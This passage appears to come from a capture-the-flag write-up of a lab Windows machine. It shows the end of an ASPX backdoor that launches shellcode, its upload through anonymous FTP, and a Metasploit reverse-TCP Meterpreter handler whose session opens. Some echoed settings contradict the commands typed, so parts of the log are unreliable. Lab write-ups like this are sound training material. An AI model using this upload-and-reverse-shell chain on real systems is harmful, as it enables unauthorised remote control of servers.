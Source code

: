 ```
        IntPtr eeRvj = IntPtr.Zero;
        IntPtr wonjbeRt = CreateThread(IntPtr.Zero,UIntPtr.Zero,ejiJULy,IntPtr.Zero,0,ref eeRvj);
    }
</script>
```
Now that we have created the backdoor, we have to upload it:

```
sudo rlwrap ftp 10.129.82.146
Connected to 10.129.82.146.
220 Microsoft FTP Service
Name (10.129.55.78:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put ./hello.aspx 
local: ./hello.aspx remote: ./hello.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2915 bytes sent in 0.00 secs (71.2810 MB/s)
ftp> exit
```

Now we open up the metasploit multi/handler to listen for the connection.
exitonsession false means that even if the connection fails, it will still be listening.

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.36
lhost => 10.129.82.146
msf6 exploit(multi/handler) > set lport 1234
lport => = 1234
msf6 exploit(multi/handler) > set exitonsession false
exitonsession => false
msf6 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 10.10.14.36:1234 
msf6 exploit(multi/handler) > [*] Sending stage (175174 bytes) to 10.129.82.146
[*] Meterpreter session 1 opened (10.10.14.36:1234 -> 10.129.82.146:49157) at 2020-11-30 16:19:47 -0500
msf6 exploit(multi/handler) > dir
[*] exec: dir

10.129.57.221  hello.aspx  na.txt  nmap  php-reverse-shell.php  shell.exe
```

We activate the listener by heading to `http://10.129.82.146/devel.aspx`

I messed around some here, but I did not have privileges. So I had to find a way to escalate my privilege. You can also see my other failed attempts lying in the folder.
